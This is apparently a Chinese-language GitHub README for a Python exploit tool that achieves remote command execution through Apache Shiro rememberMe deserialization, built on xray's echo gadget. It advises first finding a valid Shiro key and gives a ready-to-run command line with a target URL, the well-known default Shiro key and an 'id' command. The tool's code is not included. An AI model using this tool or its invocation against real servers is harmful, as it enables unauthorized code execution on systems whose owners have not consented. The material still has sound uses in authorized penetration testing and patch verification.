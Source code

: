 # shiro_rememberMe_Rce

## 描述

利用长亭xray高级版的回显Gadget重写的一个shiro反序列化利用工具。

## 用法

建议先用其他工具找到可以利用的shiro密码，然后使用此工具进行利用。

```
python shiro_rememberMe_Rce.py targetUrl shiroKey command
python shiro_rememberMe_rce.py http://192.168.0.106:8080/login kPH+bIxk5D2deZiIxcaaaA== id
```

![](./assets/markdown-img-paste-20200725205353408.png)

![](./assets/markdown-img-paste-20200725205414673.png)

## 参考

参考文章[shiro新姿势：初探xray高级版shiro插件](https://www.anquanke.com/post/id/211228)
